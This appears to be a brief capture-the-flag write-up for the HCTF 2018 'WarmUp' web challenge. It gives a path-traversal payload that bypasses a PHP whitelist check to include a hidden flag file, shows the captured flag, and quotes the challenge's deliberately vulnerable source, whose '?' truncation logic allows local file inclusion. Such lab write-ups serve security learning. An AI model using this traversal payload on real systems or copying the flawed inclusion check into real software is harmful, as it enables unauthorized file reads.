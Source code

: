 ```yaml
---
title: '[HCTF 2018]WarmUp'
date: '2025-05-09T21:13:39+08:00'
weight: 
draft: false
description: '[HCTF 2018]WarmUp'
---
```


source.php?file=../../../../../../../../ffffllllaaaagggg
source.php?
flag not here, and flag in ffffllllaaaagggg
![PixPin_2025-05-01_22-02-09](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-01_22-02-09.13lzgbl1ja.webp)

flag{8855d74e-b6ec-4639-ba3d-7d3d231f9e02}

```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```